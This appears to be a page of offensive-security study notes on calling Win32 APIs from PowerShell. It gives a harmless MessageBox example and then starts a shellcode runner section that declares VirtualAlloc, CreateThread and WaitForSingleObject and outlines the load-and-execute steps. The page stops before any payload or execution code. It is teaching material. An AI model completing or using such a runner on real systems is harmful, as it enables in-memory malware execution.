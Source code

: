 ## 3.5.1 Calling Win32 APIs from PowerShell

Powershell can interact indirectly with Win32 APIs via .NET Framework (C#) - [PowerShell ISE](https://learn.microsoft.com/en-us/powershell/scripting/windows-powershell/ise/introducing-the-windows-powershell-ise?view=powershell-7.4). In C#, declaring and importing the Win32 API is done via the [DllImportAttribute](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.dllimportattribute?view=net-8.0) class - provides the information needed to call a function exported from an unmanaged DLL.

- Using [P/Invoke](https://learn.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke) to access structs, callbacks, and functions in unmanaged DLL.
- [Add-Type](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.4) to complie the C# code snippet

Practice: Calling the MessageBox from Powershell

Calling_Win32_APIs_from_PowerShell.ps1

```powershell
# declare blocks of text
$User32 = @" 
using System;
using System.Runtime.InteropServices;

public class User32 {
 [DllImport("user32.dll", CharSet=CharSet.Auto)]
 public static extern int MessageBox(
	 IntPtr hWnd, 
	 String text, 
	 String caption, 
	 int options);
} 
"@ 
Add-Type $User32
# execute the API
[User32]::MessageBox(0, "Calling Win32 APIs from PowerShell", "MyBox", 0)
```

![[Pasted image 20240530214350.png]]

## 3.5.2 PowerShell Shellcode Runner 

The process of creating shellcode in Powershell is similar to VBA. "allocate executable memory" -> "copy the shellcode" -> "execute it"

Simple_Shellcode_Runner_Powershell_v1.ps1

```powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;
public class Kernel32 {
 [DllImport("kernel32")]
 public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
 
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
 public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

 [DllImport("kernel32.dll", SetLastError=true)]
 public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
} 
"@
Add-Type $Kernel32

```